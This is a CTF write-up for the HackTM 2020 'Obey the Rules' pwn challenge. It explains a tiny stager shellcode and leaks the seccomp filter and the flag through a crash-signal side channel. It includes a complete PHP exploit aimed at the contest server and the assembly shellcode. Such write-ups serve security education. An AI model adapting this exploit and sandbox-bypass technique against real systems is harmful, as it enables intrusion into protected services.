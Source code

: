 # Obey the Rules - HackTM 2020 Quals
## Introduction

Obey the Rules is a pwn task.

The goal of this task is to read a file, `/home/pwn/flag.txt`. The binary
provided will execute a user-provided shellcode, but it is protected by seccomp
rules. The rules are not given to challengers.


## 9-bytes Shellcode

The binary prints an ASCII art of a book, and asks to the user whether they obey
or not.

The user's input is read in a 11-bytes buffer. It is then compared against `Y`
with `strcmp`. If it does not, (i.e. if the buffer does not start with `Y\x00`)
the process will execute `/bin/sh`. This will result in the process being killed
due to the seccomp filters.

If the buffer does start with `Y\x00`, the first NULL byte (found with `strlen`)
is replaced with an other `Y`, and the buffer is executed as a shellcode.

When the shellcode is called, `rax` points to the begining of the rwx-mapped
memory area that holds the shellcode. This can be leveraged to overwrite the
shellcode with a longer shellcode using `read`.

```
0000:	59   	pop    rcx     // first Y
0001:	59   	pop    rcx     // NULL, replaced by Y

0002:	31 ff	xor    edi,edi // fd  = 0
0004:	48 96	xchg   rsi,rax // buf = map
0006:	31 c0	xor    eax,eax // syscall = 0 (SYS_read)
0008:	0f 05	syscall
000A:	90	nop
```

## Leaking the seccomp rules

With a longer shellcode, it is possible to issue any syscall. However, almost
every syscalls appear to be blocked by the seccomp rules, including `write`.

It is possible to exfiltrate a bit by terminating the program, either with a
segmentation fault (jumping to invalid memory) or with a trap to debugger
(`int3`, invoking an uncaught `SIGTRAP`)

This oracle can be used to exfiltrate the content of the seccomp rules that
are referenced in a global variable.

The disassembled BPF program used as a filter is the following:
```
l0:	ld [4]
l1:	jeq AUDIT_ARCH_X86_64, l2, l12

l2:	ld [0]
l3:	jge #0x40000000, l12, l4

l4:	jeq SYS_open, l11, l5
l5:	jeq SYS_exit, l11, l6
l6:	jeq SYS_read, l7, l12

l7:	ld [16]
l8:	jeq #0x3, l9, l11

l9:	ld [24]
l10:	jeq #0x602888, l11, l12
l11:	ret #0x7fff0000
l12:	ret #0
```

This filter allows:
1. open
2. exit
3. read when `fd` is not 3
4. read when `fd` is 3, and `buf` is `0x602888`

## Leaking the flag

The seccomp filters only allows the flag to be read at `0x602888` (`fd` == 3).
It is not possible to open a 4th file due to system restrictions set before
creating the process. (à la `ulimit`)

It is possible to run a shellcode that will open the flag, read it at the
correct location and use the script used previously to exfiltrate the flag.

The final shellcode can be found at `shellcode.S` in the appendices. The final
script in `pwn.php` as well as additional scripts that were used to convert
formats (binary digits, BPF, and ascii)

**Flag**: `HackTM{kn0w_th3_rul3s_we11_s0_y0u_c4n_br34k_th3m_EFFECTIVELY}`

## Appendices
### pwn.php
```php
#!/usr/bin/php
<?php // vim: filetype=php
require_once "/home/user/ctf/tools/pwn/phplib/hexdump.php";
require_once "/home/user/ctf/tools/pwn/phplib/tubes/Process.php";
require_once "/home/user/ctf/tools/pwn/phplib/tubes/Socket.php";

const HOST = "138.68.67.161";
const PORT = 20001;

$t = new Socket(HOST, PORT);
$t->expectLine("");
$t->expectLine("           === OBEY THE RULES 1.0 ===");
$t->expectLine("           --------------------------");
$t->expectLine("");
$t->expectLine("    __________________   __________________");
$t->expectLine(".-/|                  \ /                  |\-.");
$t->expectLine("||||    NEW RULES:     |                   ||||");
$t->expectLine("||||                   |                   ||||");
$t->expectLine("||||                   |                   ||||");
$t->expectLine("||||                   |                   ||||");
$t->expectLine("||||                   |                   ||||");
$t->expectLine("||||                   |                   ||||");
$t->expectLine("||||                   |                   ||||");
$t->expectLine("||||                   |                   ||||");
$t->expectLine("||||                   |                   ||||");
$t->expectLine("||||                   |                   ||||");
$t->expectLine("||||__________________ | __________________||||");
$t->expectLine("||/===================\|/===================\||");
$t->expectLine("`--------------------~___~-------------------''");
$t->expectLine("");


$t->expectLine("   >> Do you Obey? (yes / no)");

$payload  = "Y\x00"; // pop rcx, pop rcx

$payload .= "\x31\xFF"; // xor edi, edi
$payload .= "\x48\x96"; // xchg rsi, rax
$payload .= "\x31\xC0"; // xor eax, eax (SYS_read)
$payload .= "\x0F\x05"; // syscall
$payload  = str_pad($payload, 0x0B, "\x90");

$shellcode = file_get_contents("shellcode");
$shellcode = str_replace("BBBB", pack("V", $argv[1]), $shellcode);
$payload  .= str_repeat("\x90", strlen($payload));
$payload  .= $shellcode;
$t->write($payload);


$line = $t->readLine();
if($line === "Segmentation fault (core dumped)")
	echo "0";
else if($line === "Trace/breakpoint trap (core dumped)")
	echo "1";
else
	echo "?";
echo "\n";
```

### shellcode.S
```asm
.intel_syntax noprefix
.global _start

_start:
	lea rdi, [rip + filename]
	mov rsi, 0
	mov rax, 0 // SYS_open
	syscall
	// rax == 3

	mov rdi, rax
	mov rsi, 0x602888 // backdoor
	mov rdx, 0x80
	mov rax, SYS_read
	syscall

	// placeholder
	mov ecx, 0x42424242

	// al = target[bit >> 3]
	mov rdi, rcx
	shr rdi, 3
	add rdi, 0x602888
	mov al, byte ptr [rdi]

	and cl, 7
	shr al, cl
	and al, 1

	jnz true
	push 0
	ret

true:
	int3

filename: .asciz "/home/pwn/flag.txt"
```

### convert.php
```php
#!/usr/bin/php
<?php
$byte = 0;
$bit  = 0;

while(true) {
	$r = trim(fgets(STDIN));
	if(feof(STDIN))
		break;

	$byte |= (int)$r << $bit;
	$bit++;

	if(8 === $bit) {
		echo chr($byte);
		$byte = 0;
		$bit  = 0;
	}
}
```

### bpf.php
```php
#!/usr/bin/php
<?php
$opcodes = array();
while(true) {
	$opcode = fread(STDIN, 8);
	if(8 !== strlen($opcode))
		break;
	$opcodes[] = $opcode;
}

printf("%d", sizeof($opcodes));
foreach($opcodes as $op) {
	$a = unpack("v", substr($op, 0, 2))[1];
	$b = unpack("c", substr($op, 2, 1))[1];
	$c = unpack("c", substr($op, 3, 1))[1];
	$d = unpack("V", substr($op, 4, 4))[1];
	printf(",%d %d %d %d", $a, $b, $c, $d);
}
```